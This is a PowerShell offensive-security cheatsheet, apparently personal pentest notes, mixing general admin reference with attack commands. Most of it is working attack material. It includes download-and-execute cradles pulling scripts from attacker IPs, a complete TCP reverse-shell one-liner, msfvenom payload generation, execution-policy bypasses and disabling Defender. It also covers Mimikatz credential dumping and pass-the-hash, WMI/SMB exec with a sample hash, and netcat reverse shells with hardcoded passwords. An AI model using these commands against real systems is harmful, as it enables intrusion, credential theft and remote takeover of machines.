

Cheatsheet
Using command line (why not run direcrly???)
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.17:8000/Sherlock.ps1') | PowerShell -Noprofile -
Versions
- v1: November 2006 - Windows XP SP2, Windows Server 2003 SP1 and Windows Vista
- v2: Windows 7 and Windows Server 2008 R2 (Standalone for: Windows XP SP3, Windows Server 2003 SP2, and Windows Vista SP1)
- v3: Windows 8 (Can be installed on: Windows 7 SP1, for Windows Server 2008 SP1, and for Windows Server 2008 R2 SP1) (no XP support)
- v4: Windows 8.1 (Can be installed on: Windows 7 SP1, for Windows Server 2008 SP1, and for Windows Server 2008 R2 SP1)
- v5:
- Part of Windows Management Framework (WMF) 5.0.
- February 24, 2016.
- Features OneGet PowerShell cmdlets to support Chocolatey's repository-based apps.
- Ability to manage layer 2 network switches
- Windows 10 Anniversary Update
- Available for Windows 7, Windows Server 2008, Windows Server 2008 R2, Windows Server 2012, and Windows Server 2012 R2
- v6: PowerShell Core on 18 August 2016
Get-Host | Select-Object Version
$PSVersionTable
References
- https://pinvoke.net - Allowing developers to find, edit and add
PInvoke* signatures, user-defined types, and any other information related to calling Win32 and other unmanaged APIs from managed code (written in languages such as C# or VB.NET). - An A-Z Index of Windows PowerShell commands: https://ss64.com/ps/
- Windows PowerShell command line syntax: https://ss64.com/ps/syntax.html
Help System
-
Versin information:
$PSVersionTable -
Get-Help Get-Process help Get-Process-
Update-Help -
Get-Help remoting Get-Help about_*remot*
Basic Constructs
Cmdlets
Function
List all Cmdlets
Get-Command -CommandTyle Cmdlet
Aliases
Get-Alias -Name ps
Get-Alias -Definition Get-Process
Check Environment
C:\WIndows\Syswow64\Windowspowershell\v1.0\powershell.exePSModulePath- Version info:
powershell -v 2.0 -c $psversiontable - Language mode:
$host.runspace.languagemode - Check if AppLocker is enabled:
Get-AppLockerPolicy -Local - Powershell Version:
(Get-Host).Version - 64bit version:
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
Download Files
powershell wget "http://example.com/abc.txt" -outfile "abc.txt"
Invoke-WebRequest -Uri "http://192.168.0.17/PS_TCP4.ps1" -OutFile $fullpath;
powershell -c "Invoke-WebRequest -Uri http://10.10.15.150/41020.exe -OutFile C:\Users\kostas\Desktop\41020.exe"
echo $webclient = New-Object System.Net.WebClient >wget.ps1
echo $url = "http://10.10.10.10/example.exe" >>wget.ps1
echo $file = "example.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInterative -NoProfile -File wget.ps1
Base64 encoded payload delivery
echo "iex (New-Object Net.WebClient).DownloadString('http://172.16.67.128:80/6WcepYO')" | iconv --to-code UTF-16LE | base64 -w 0
kaliwmis-32 -U administrator%badpassword //10.10.10.10 "cmd.exe /c powershell.exe -nop -enc <base64-value>"
Execution Policy
powershell.exe -exec Bypass
- Not a security feature
- Used to avoid accidental script execution
- Can be bypass with:
powershell -ExecutionPolicy bypass .\example.ps1powershell -c <cmd>powershell -EncodedCommand <cmd>powershell -enc <cmd>$env:PSExecutionPolicyPreference="bypass"
Ref https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6
15 ways to bypass PowerShell execution policy: https://www.netspi.com/blog/entryid/238/15-ways-to-bypass-the-powershell-execution-policy
Revserse Shell
Start-Process -FilePath “powershell” -argumentlist “IEX(New-Object Net.WebClient).downloadString(‘http://10.10.14.30/adminshell.ps1’)” -Credential $cred
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.159/Invoke-PowerShellTcp-8082.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
Modules
Import-Module <path_to_module> -verbose
- List all available modules:
Get-Module -ListAvailable -All - List all modules available in:
$env:PSModulePath - All functions exposed by a module:
Get-Command -Module <module_name>
Remote Script execution
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');iex (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');powershell -EncodedCommand <Base64EncodedCommand>
START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.2/shell.ps1')
/B prevents creation of a new window
- Craft Download Cradles: https://github.com/danielbohannon/Invoke-CradleCrafter
More Download Cradles
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://example.com/example.ps1');sleep 5;$resp=$ie.Document.Body.innerHTML;$ie.quit();iex $respiex (iwr 'http://example.com/example.ps1')-
$h=New-Object -ComObject Msxm12.XMLHTTP;$h.open('GET', 'http://192.168.230.1/evil.psi1' ,$false);$h.send();iex $h. responseText
$wr [System.NET.WebRequest]::Create("http://192.168.230.1/evil.psi")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader] ($r.GetResponseStream())) .ReadToEnd()```
Command History (PSReadline)
cat (Get-PSReadlineOption).HistorySavePath | sls password
By default, the path is:
profile:\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Powershell Remoting
- Enabled by default from Windows Server 2012
Enable-PSRemoting -Force- Admin privileges are required to connect
Get-Command -CommandType cmdlet -ParameterName computernameGet-Command -CommandType cmdlet | Where-Object {$_Parameters.Keys --contains 'ComputerName' -and $_Parameters.Keys --contains 'Credential' -and $_Parameters.Keys --notcontains 'Session'}
WSMAN (WebServicesManagement) Protocol (WinRM)
- WinRM is Microsoft’s implementation of WSMAN
- Port 5985, 5986
- If target is in a workgroup, attacker's machine should trust target machine to send out credentials:
- Set-Item WSMan:\localhost\client\trustedhosts -Value *
Invoke-Command -ScriptBlock {$env:ComputerName} -ComputerName example -Credential dominName/userName-FilePath
Invoke-WSManAction -Action Create -ResourceURI wmicimv2/win32_process -ValueSet @{commandline="powershell.exe -c Get-Process"} - ComputerName domainpc –Credential
Invoke-WSManAction -Action Create -ResourceURI wmicimv2/win32_process -ValueSet @{commandline="powershell.exe -c iex ((New-Object Net.Webclient).DownloadString('http://192.168.254. 1/reverse_powershell.ps1'))"} -ComputerName domainpc
WSMAN vs PowerShell Remoting vs WMI
WSMAN
- Firewall friendly
- Use HTTP and HTTPS ports
- Syntax is complex
- Returns immutable objects
- Can be used with non-Windows machines
Powershell Remoting
- Firewall friendly
- Easy use
- Returns immutable objects
WMI
- Not firewall friendly
- Not NAT friendly
- Complex
- Returns editable objects
One to One
Invoke-Commandis stateless for stageful operations usePSSession- Interactive, stateful session
- Run in a new process
wsmprovhost - New-PSSession
$ses = New-PSSession -ComputerName <name> -Credential <cred>Get-PSSessionEnter-PSSession
Define a function in a remote machine and call it:
Invoke-Command -ScriptBlock {function Example1 {whoami;}} -Session $ses
Invoke-Command -ScriptBlock {Example1} -Session $ses
PSSession -CommandName Example1 -Session $ses
Export a command from a remote machine:
Export-PSSession -Module <name> -CommandName Example1 -Session $ses
Double Hop Problem (Attacker delegate sending token to target-2 from target-1)

Enable-WSManCredSSP -Role Client -DelegateComputer
Enable-WSManCredSSP -Role Server
Get-WSManCredSSP
Enter-PSSession -ComputerName <name> -Credential <cred> -Authentication CredSSP
Useful cmdlets
New-PSSession Enter-PSSession
Set-MpPreference -DisableRealtimeMonitoring $true
New-PSSession -ComputerName instance
$sess = New-PSSession -ComputerName instance
Enter-PSSEssion - Session $sess
One to Many (Fan-out Remoting)
- Non-interactive
- Parallel command execution
- Can execute scripts from files
- Usable to perform command execution without dropping exe onto disk
- Useful for passing and replying hashes, tickets and other AD attacks
Run commands:
Invoke-Command -ScriptBlock{whoami;hostname} -ComputerName instance
Run scripts:
Invoke-Command -FilePath example.ps1 -ComputerName instance
Run functions installed on the remote box:
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -ComputerName instance
Stateful commands:
$sess = New-PSSession -ComputerName instance
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
Mimikatz (ReflectivePEInjection is used to load into memory)
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -DumpCerts
Pass the Hash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<name_of_the_user> /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
Dump Creds from multiple machines
Invoke-Mimikatz -DumpCreds -ComputerName @("instance1", "instance2")
Load PowerUp
powershell -ExecutionPolicy Bypass
Import-Module ./PowerUp.ps1
Invoke-AllChecks
Active Directory
-
[ADSI]
-
Get member of the domain admin group
([ADSI]"LDAP://cn=Domain Admin,cn=Users,dc=Example,dc=com").Members -
Get memberships of a user
([ADSI]"LDAP://cn=Administrator,cn=Users,dc=Example,dc=com").MemberOf -
.NET Class:
System.DirectoryServices.ActiveDirectory -
Native Executable
-
WMI
System Information
Get-HotFix
Jobs
Start-Job -ScriptBlock {whoami}
Start-Job -FilePath <path>
Get-Job | Receive-Job
Get-Job -id <id> | Receive-Job
Remove-Job
Get-Command -ParameterName AsJob
Run job on a remote machine using PSSession or by using -AsJob with -ComputerName. With -AsJob it's possible to see remote jobs using Get-Job.
.Net
Exploring Assemblies
Finding assemblies
$Classes = [AppDomain]::CurrentDomain.GetAssemblies()
$Classes = [AppDomain]::CurrentDomain.GetAssemblies() | ForEach-Object {$_.GetTypes()} | Where-Object {$_.IsPublic -eq "True"}
Working with assemblies and invoking functions
$ProcClass = $Classes | Where-Object {$_.Name -eq "Proccess"}
$ProcClass | Get-Members
$ProcClass | Get-Members -MemberType Method -Static
$ProcClass.GetMethods()
$ProcClass::GetCurrentProcess()
$ProcClass.FullName
[System.Diagnostic.Process]::GetCurrentProcess()
[System.Diagnostic.Process] | Get-Members -MemberType Method -Static | Format-List *
Add-Type -AssemblyName System.Windows.Forms
[System.Windows.Forms.Sendkeys]
AssemblyName
Add-Type -AssemblyName System.ServiceProcess
[System.ServiceProcess.ServiceController] | Get-Members -MemberType Method -Static | Format-List *
[System.ServiceProcess.ServiceController]::GetDevices()
TypeDefinition
$DotnetCode = @"
public class SysCommands
public static void lookup (string domainname) {
System. Diagnostics.Process.Start("ns lookup.exe", domainname) ;
}
public void netcmd (string cmd) {
string cmdstring = "/k net.exe " + cmd;
System. Diagnostics.Process.Start("cmd. exe" ,cmdstring) ;
}
public static void Main() {
string cmdstring = "/k net.exe " + "user";
System. Diagnostics.Process.Start("cmd. exe",cmdstring);
}
"@
# Compile .Net code and load objects from it
Add-Type -TypeDefinition $DotnetCode -OutputType Library -OutputAssembly SysCommand.dll
Add-Type -TypeDefinition $DotnetCode -OutputType ConsoleApplication -OutputAssembly SysCommand.exe
[SysCommand]::lookup("google.com")
# Load objects from a DLL into Memory
$obj = Add-Type -Path SysCommand.dll -PassThru
$obj | Get-Members
[SysCommand]::lookup("google.com")
# Calling non-static functions
$obj = New-Object SysCommands
$obj .netcmd("user")#>
MemberDefinition - DLL Import
$Apicode = @"
[DllImport("kerne132.d11")]
public static extern bool CreateSymbolicLink(string IpSymlinkFileName, string IpTargetFileName, int dwFlags);
"@
$SymLink = Add-Type -MemberDefinition $ApiCode -Name Symlink -Namespace CreatSymLink -PassThru
$SymLink::CreateSymbolicLink('C:\test\link', 'C:\Users\', 1)
WMI
Exploring namespaces
Get-WmiObject -Namespace "root" -Class "__Namespace" | select name
List even the nested namespaces -
http://www.powershellmagazine.com/2013/10/18/pstip-list-all-wmi-namespaces-on-a-system/
Exploring Classes
Get-WmiObject –NameSpace “<namespace>” –List
Exploring Methods
Get-WmiObject -Class <class> -List | Select-Object -ExpandProperty Methods
Filter based on properties of objects getting returned
Get-WmiObject -Class Win32_Process -Filter (Name = "powershell.exe")
Get-WmiObject -Class Win32_Process | Where-Object {$_.Name -eq "powershell.exe"}
Get-WmiObject -Query {Select * from Win32_Process where Name = "powershell.exe"}
Remove-WmiObject
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe"
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" - ComputerName <name> -Credential <cred>
COM Objects
Explore available COM objects:
Get-ChildItem REGISTRY::HKEY_CLASSES_ROOT\CLSID -include PROGID -recurse | foreach {$_.GetValue("")} | Where-Object {$_ -match “<appname>"}
$wscript = New-Object -ComObject WScript.Shell.1
$wscript | Get-Member
$wscript.CurrentDirectory
$wscript.SendKeys("Hello")
$wscript.Exec("cmd")
$wscript.CreateShortcut(...)
Interesting COM Objects
- WScript.Shell.1
- Shell.Applcation.1
Windows Registry
Get-Item 'HKLM:\SOFTWARE\Microsoft\Windows NT\Current Version'
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\Windows NT\Current Version' -Recurse
Get-Provider -PSProvider Registry
Due to above provider it's possible to use registry as filesystem.
Set-Location Registry::
> ls
> cd HKLM
> ls
New-PSDrive -name RegistryDrive -PSProvider Registry -Root Registry::
> dir
Get-PSDrive
New-Item -Path HKCU:\Test\New
New-ItemProperty -Path HKCU:\Test\New -Name Reg2 -PropertyType String -Value 2
Rename-Item HKCU:\Test -NewName HKCU:TestNew
Rename-ItemProperty HKCU:\Test\New -Name Reg2 -NewName Reg3
Set-ItemProperty -Path HKCU:\Test\New -Name Reg2 -Value 3
Recon
- Directory search:
Get-HttpStatus
Client Side Attacks
- Out-Word
- Out-Excel
- Out-CHM
- Out-Shortcut
- Out-HTA
- Out-Java
Encoding
Invole-Encode -DataToEncode example.ps1 -OutCommandOut-CHM -Payload "-e <encodedValue>"
Metasploit
- Using Powershell with Metasploit: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Powershell-in-an-exploit
msfvenom meterpreter
./msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> -f psh-reflection
cmd/windows/reverse_powershell
Useful modules:
- exploit/windows/smb/psexec_psh
- Payload is encoded
- exploit/windows/local/powershell_cmd_upgrade
- Upgrade native to Powershell
- post/windows/manage/powershell/exec_powershell
- exploit/multi/script/web_delivery
Pass the Hash with Powershell
.\wce.exe –s <Administrator:.:hashes> -c PowerShell.exe
Invoke-Mimikatz -Command "'"sekurlsa::pth /user:Administrator /domain:. /ntlm:<ntlmhash> /run:powershell.exe'""
http://www.pwnag3.com/2014/05/what-did-microsoft-just-break-with.html
Persistence
- WMI permanent event consumers
- Windows registry
- Scheduled tasks
Restricting Powershell
-
http://www.darkoperator.com/blog/2013/3/21/powershell-basics-execution-policy-and-code-signing-part-2.html
-
Process tracking and Module logging.
-
ACL, Software Restriction Policies (SRP) and Application Control Policies (Applocker) could be used to control PowerShell.
-
Both aresupported by GPO, your mileage may vary according to your implementation preferences.
-
__PSLockDownPolicy(v3 only) -
Just Enough Admin – Restrict Administrative Rights - http://blogs.technet.com/b/privatecloud/archive/2014/05/14/just-enough-administration-step-by-step.aspx
-
Auditing, Base lining and Incident Management
-
PoshSec - https://github.com/PoshSec
- Kansa - https://github.com/davehull/Kansa
- Voyeur - https://github.com/silverhack/voyeur/
-
Using Virus Total API - https://github.com/darkoperator/Posh-VirusTotal
-
Bypassing Applocker Policies - http://www.sixdub.net/2014/12/02/inexorable-powershell-a-red-teamers-tale-of-overcoming-simple-applocker-policies/
-
https://github.com/Veil-Framework/PowerTools/tree/master/PowerPick
-
Investigating PowerShell attacks https://www.defcon.org/images/defcon-22/dc-22-presentations/Kazanciyan-Hastings/DEFCON-22-Ryan-Kazanciyan-Matt-Hastings-Investigating-Powershell-Attacks-UPDATED.pdf
Save output
Get-Service | Export-CSV C:\Temp\AllServices.CSV –NoTypeInfo
Get-User –Filter ‘Name –Like “*John”’ | Export-CSV C:\Temp\AllUsers.CSV –NoTypeInfo
Get-ChildItem –Path C:\Windows\System32 | Export-CSV C:\Temp\AllFiles.CSV -NoTypeInfo
- Reboots:
Get-EventLog –Log System –Newest 100 | Where-Object {$_.EventID –eq ‘1074’} | FT MachineName, UserName, TimeGenerated -AutoSize - Search hotfix:
Get-HotFix –ID KB2877616 - Backup Group Policy:
Backup-GPO –All –Path C:\Temp\AllGPO -
Check if all DCs are Global Catalog Servers:
Get-ADDomainController –Filter * | Select Hostname, IsGlobalCatalog
Permissions
icacls "C:\Program Files (x86)\Program Folder"
OI This folder and files
CI This folder and subfolders
IO The ACE does not apply to the current file/directory.
No output message: This folder only
(IO)(CI) This folder, subfolders and files
(OI)(CI)(IO) Subfolders and files only
(CI)(IO) Subfolders only
(OI)(IO) Files only
https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490872(v=technet.10)
Powershell with HID
- https://github.com/samratashok/Kautilya/
- http://www.labofapenetrationtester.com/search/label/Kautilya
- http://www.irongeek.com/i.php?page=security/plug-and-prey-malicious-usb-devices
https://github.com/subTee/CVE-2014-4113/blob/master/Invoke-SystemShell.ps1 http://www.labofapenetrationtester.com/2014/12/using-nishang-with-cobalt-strike.html http://blog.cobaltstrike.com/2014/09/23/cobalt-strike-2-1-i-have-the-powershell/
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.125/PowerUp.ps1')"
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.125/Sherlock.ps1')"
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.125/MS16-032.ps1')"
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.125/MS16-135.ps1')"
\\10.11.0.125\share\41015.exe
\\10.11.0.125\share\SetWindowLongPtr_Exploit.exe
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.125/Invoke-WMIExec.ps1'); Invoke-WMIExec -Target localhost -Username alice -Hash aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE -Command 'cmd' -verbose"
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.125/Invoke-SMBExec.ps1'); Invoke-SMBExec -Target localhost -Username alice -Hash aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE -Command 'net localgroup administrators bethany /add' -verbose"
PsExec64.exe \\localhost -u alice -p aliceishere cmd
powershell -ExecutionPolicy Bypass
C:\Users\Bethany\Desktop\PsExec.exe -accepteula \\localhost -u alice -p aliceishere cmd
powershell.exe -exec Bypass -C "$action = New-ScheduledTaskAction -Execute netsh -Argument 'firewall set opmode disable'; $trigger = New-ScheduledTaskTrigger -Once -At $startTime -RepetitionInterval (New-TimeSpan -Minutes 1) -RepetitionDuration ([Timespan]::MaxValue); $settings = New-ScheduledTaskSettingsSet -MultipleInstances Parallel; Register-ScheduledTask -TaskName 'amx1' -TaskPath 'C:\Windows\System32\' -Action $action -Trigger $trigger -User 'alice' -Password 'aliceishere' -Settings $settings"
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.125/runas.ps1')"
cmd /C echo "aliceishere" | runas /user:alice "cmd"
Option explicit
dim oShell
set oShell= Wscript.CreateObject("WScript.Shell")
oShell.Run "C:\Users\Bethany\Desktop\nc.exe -e cmd.exe 10.11.0.125 9999"
WScript.Sleep 100
oShell.Sendkeys "aliceishere~”
Wscript.Quit
// CScript / WScript
$username = 'alice'
$password = 'aliceishere'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securepassword
Start-Process 'C:\Users\Bethany\Desktop\nc.exe' -ArgumentList '-e cmd.exe 10.11.0.125 9999' -Credential $credential
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -C "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.125/runas.ps1')"